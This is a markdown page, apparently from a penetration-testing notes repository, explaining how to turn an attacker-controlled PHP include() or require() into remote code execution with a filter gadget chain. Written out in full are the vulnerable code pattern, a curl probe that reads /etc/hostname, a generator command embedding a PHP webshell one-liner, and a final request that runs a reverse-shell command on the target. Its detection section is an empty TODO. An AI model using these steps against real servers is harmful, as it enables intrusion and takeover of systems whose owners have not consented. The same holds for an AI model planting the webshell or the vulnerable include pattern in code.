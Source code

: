 
# PHP Filter Gadget Chain
## Summary

A PHP Filter Gadget Chain is a technique used to obtain PHP code execution against a PHP-enabled web server, when the attacker is able to control the input to a require() or include() function call.

## Prerequisites

A PHP enabled web server, alongside some vulnerable code.

## Setup

Either of the following function calls are vulnerable to this attack. As long as the attacker-controlled input is not mangled too heavily prior to the include or require function calls, then this attack should still work. Ideally the input is not mangled at all.

```php
include($_GET['page'])
# OR
require($_GET['page'])
```

This can be tested by performing the following request to see if any output is produced:

```bash
curl http://ip/index.php?page=php://filter/convert.base64-encode/resource=/etc/hostname
```

If the base64 encoded hostname is rendered to the site, then this RCE is possible.

## Execution

### Method 1 - PHP Filter Gadget Chain Generator

Using [this](https://github.com/synacktiv/php_filter_chain_generator) repository, and any PHP code that can lead to code execution on the target (see [Basic PHP Webshell Oneliner](./php_webshell_oneline.md)), the following command can be used to exploit the target:

```bash
python3 php_filter_chain_generator.py --chain '<?php system($_GET["cmd"]); ?>' | tail -n1
```

![gadget chain](./images/Pasted%20image%2020230706230434.png)

Then, it's possible to run commands by using the following command:

```bash
curl http://ip/index.php?page=<gadget chain>&cmd=<reverse shell oneliner>
```

#### Indicators of Compromise

TODO
